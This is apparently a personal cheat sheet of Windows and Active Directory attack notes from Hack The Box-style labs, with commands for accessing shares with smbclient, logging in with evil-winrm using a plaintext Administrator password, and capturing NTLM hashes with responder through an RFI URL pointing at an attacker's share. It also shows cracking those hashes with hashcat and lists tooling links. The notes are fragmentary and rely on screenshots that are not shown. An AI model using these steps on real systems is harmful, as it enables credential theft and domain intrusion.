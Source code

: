 ## Access share
### smbclient
smbclient \\\\10.129.95.187\\backups
-> cd, ls get ....
Using username and pass:
![image](https://user-images.githubusercontent.com/19478700/215273350-bf5c6ac9-6068-4e8c-8d25-c28892f1f6e2.png)
Connect using password:
evil-winrm -i 10.129.228.204 -u Administrator -p 'badminton'

![image](https://user-images.githubusercontent.com/19478700/214691178-b4aaf701-efda-4d83-97b2-9143d05be73c.png)


conncet using cert and priv key:

## Get NTLM hash
![image](https://user-images.githubusercontent.com/19478700/214714186-e3876353-c3fe-4cd1-99e8-789f7135cea5.png)
![image](https://user-images.githubusercontent.com/19478700/214714312-f5b2151e-a0a4-4454-b329-a59532432865.png)
we can also use responder to listen for any attempt to connect to our share to get the hash
for example in an RFI we can make te web service acces the share by visiting the link :
http://school.flight.htb/index.php?view=//10.10.16.82/test
```s
responder -I tun0 -wPv
```
### Crack NTLM:
```s
hashcat -a 0 -m 5600 hash_c.bum /usr/share/wordlists/rockyou.txt
```

### Places to steal ntlm
https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#desktop.ini

## RunaCs
an utility to run specific processes with different permissions than the user's current logon provides
https://github.com/antonioCoco/RunasCs/tree/master


## Host share server
![image](https://user-images.githubusercontent.com/19478700/214715933-ca7cdb35-89da-4b7b-8a53-f5ce63e1c582.png)
#### to copy files to share:
![image](https://user-images.githubusercontent.com/19478700/214716094-ff65b350-30a0-4c31-a8b2-beee12dab2dc.png)

## BloodHound
Tool used to gather and display information about a domain using GUI
![image](https://user-images.githubusercontent.com/19478700/214720832-ef9775cd-160a-4975-a4d6-902d768ed772.png)
